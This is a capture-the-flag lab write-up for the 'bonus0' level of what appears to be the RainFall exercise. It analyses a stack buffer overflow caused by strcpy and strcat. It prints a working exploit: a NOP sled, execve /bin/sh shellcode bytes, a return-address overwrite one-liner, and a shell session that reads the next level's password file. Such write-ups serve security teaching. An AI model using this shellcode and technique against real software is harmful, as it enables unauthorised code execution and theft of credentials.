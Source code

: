 # Bonus0

## **Binary Analysis**

In **Bonus0**, I found a binary file. I tried to disassemble the binary file, and the **`main`** function allocates a buffer, passes its address to the **`pp`** function to populate it, and then prints the content of the buffer using **`puts`**.

```nasm
db) disas main
...
0x080485a4 <+0>:	push   %ebp
0x080485a5 <+1>:	mov    %esp,%ebp ; set up the stack frame
0x080485a7 <+3>:	and    $0xfffffff0,%esp
0x080485aa <+6>:	sub    $0x40,%esp ; allocates 64 bytes of space on the stack
0x080485ad <+9>:	lea    0x16(%esp),%eax
0x080485b1 <+13>:	mov    %eax,(%esp)
0x080485b4 <+16>:	call   0x804851e <pp> ; calls the pp function
0x080485b9 <+21>:	lea    0x16(%esp),%eax
0x080485bd <+25>:	mov    %eax,(%esp)
0x080485c0 <+28>:	call   0x80483b0 [puts@plt] ; prints the content of the buffer
...
```

After disassembling, I found that the **`pp`** function reads two inputs into **`buffer1`** and **`buffer2`** by calling **`p`**. It then copies **`buffer1`** into the buffer provided by **`main`** and concatenates **`buffer2`** to it.

```nasm
(gdb) disas pp
...
0x08048523 <+5>:	sub    $0x50,%esp ; allocates 80 bytes for local variables
0x08048526 <+8>:	movl   $0x80486a0,0x4(%esp) ; places the address of a string
0x0804852e <+16>:	lea    -0x30(%ebp),%eax ; calculates the address of local buffer1 (48)
0x08048531 <+19>:	mov    %eax,(%esp) ; places this address as the first argument
0x08048534 <+22>:	call   0x80484b4 <p> ; Calls p(buffer1, "some_string")
0x08048539 <+27>:	movl   $0x80486a0,0x4(%esp)
0x08048541 <+35>:	lea    -0x1c(%ebp),%eax ; to get another buffer2 (28)
0x08048544 <+38>:	mov    %eax,(%esp)
0x08048547 <+41>:	call   0x80484b4 <p> ; Calls p(buffer2, "some_string")
0x0804854c <+46>:	lea    -0x30(%ebp),%eax ; sets destination to buffer1
0x0804854f <+49>:	mov    %eax,0x4(%esp)
0x08048553 <+53>:	mov    0x8(%ebp),%eax ; retrieves the first argument passed to pp
0x08048556 <+56>:	mov    %eax,(%esp)
0x08048559 <+59>:	call   0x80483a0 [strcpy@plt] ; Copy buffer1 into the buffer passed from main
[...]
0x08048598 <+122>:	call   0x8048390 [strcat@plt] ; Concatenates buffer2 to the buffer from main
```

Upon disassembling the **`p`** function, I found it displays a message (second argument), reads up to 4096 bytes of input from the user into a local buffer, truncates at the newline character, and copies up to 20 bytes into the provided destination buffer.

```nasm
(gdb) disas p
...
0x080484b7 <+3>:	sub    $0x1018,%esp ; allocates 4120 bytes on stack
0x080484bd <+9>:	mov    0xc(%ebp),%eax
0x080484c0 <+12>:	mov    %eax,(%esp)
0x080484c3 <+15>:	call   0x80483b0 [puts@plt] ; prints the second arg passed to p
0x080484c8 <+20>:	movl   $0x1000,0x8(%esp) ; num of bytes to read (4096)
0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax ; num of bytes to read
0x080484d6 <+34>:	mov    %eax,0x4(%esp)
0x080484da <+38>:	movl   $0x0,(%esp)
0x080484e1 <+45>:	call   0x8048380 [read@plt] ; Calls read(0, buffer, 4096)
0x080484e6 <+50>:	movl   $0xa,0x4(%esp) ; sets the newline byte to null
0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
0x080484f4 <+64>:	mov    %eax,(%esp)
0x080484f7 <+67>:	call   0x80483d0 [strchr@plt] ; to find '\n'
0x080484fc <+72>:	movb   $0x0,(%eax) ; replaces the newline character with a null
0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
0x08048505 <+81>:	movl   $0x14,0x8(%esp) ; num of bytes (20)
0x0804850d <+89>:	mov    %eax,0x4(%esp)
0x08048511 <+93>:	mov    0x8(%ebp),%eax
0x08048514 <+96>:	mov    %eax,(%esp)
0x08048517 <+99>:	call   0x80483f0 [strncpy@plt] ; copy with limit of 0x14 (20) bytes
...
```

## **Vulnerability**

We have a vulnerability in **`pp`** due to the use of **`strcpy`** and **`strcat`** without bounds checking, which exposes the program to **Buffer Overflow** potential. While **`p`** uses **`strncpy`** with a 20-byte limit, **`pp`** uses unsafe **`strcpy`** and **`strcat`**.

When:

- arg1 is not null-terminated (first input ≥ 20 characters)
- arg2 is null-terminated (second input < 20 characters)

We can copy 61 chars (40 + 1 + 20) into a buffer of size 42, giving us 19 bytes to overwrite the EIP address.

Using pattern generator, we found that the offset to EIP starts at 9

## **Exploit**

To exploit this vulnerability, we need to overwrite the return address on the stack to redirect the program's execution flow to our injected code (shellcode).

1. **Inject Shellcode into Memory:**
    - Provide a first input that contains our shellcode.
    - The shellcode will be stored in the large buffer (**`buffer[4096]`**) in **`p`**.
2. **Overwrite the Return Address:**
    - Craft the second input to overflow the **`dest`** buffer in **`pp`** and overwrite the saved return address with the address of our shellcode.

We need to find the start address of the large buffer in **`p`** to store the NOP sled and shellcode.

```nasm
(gdb) b *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0
Breakpoint 1, 0x080484d0 in p ()
(gdb) x/20x $ebp-0x1008
0xbfffe650:	0x00000000	0x00000000	0x00000000	0x00000000
[..]
(gdb)
```

The buffer starts at **`0xbfffe650`**.

To overflow the buffer and overwrite the return address, we need to determine how many characters fill the buffer up to the return address.

```nasm
(gdb) r
Starting program: /home/user/bonus0/bonus0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff710	0xbffff710
ebp            0x42424242	0x42424242
esi            0x0	0
edi            0x0	0
eip            0x42424242	0x42424242
[...]
(gdb)
```

**EIP** is set to **`0x42424242`**, which corresponds to **`BBBB`** in ASCII. The value in **EIP** (**`0x42424242`**) shows that we’ve overwritten it after 9 bytes in our second input.

```nasm
[nop][EIP][nop]
|       |   |
|       |   +-- Additional padding (7 bytes)
|       +-- Return address (4 bytes)
+-- Offset (9 bytes)
```

**Let's craft the exploit:**

```nasm
# First input: NOP sled + shellcode
nop_sled = "\x90" * 400
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

# Second input: padding + return address
padding1 = "\x90" * 9
ret_addr = "\xe0\xe7\xff\xbf"  # 0xbfffe650 + 400 = 0xbfffe7e0
padding2 = "\x90" * 7
```

The exploit:

```bash
(python -c 'print "\x90" * 400 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xe0\xe7\xff\xbf" * 7'; cat) | ./bonus0
```

The result:

```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 400 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xe0\xe7\xff\xbf" * 7'; cat) | ./bonus0
 -
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## **Flag**

```bash
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```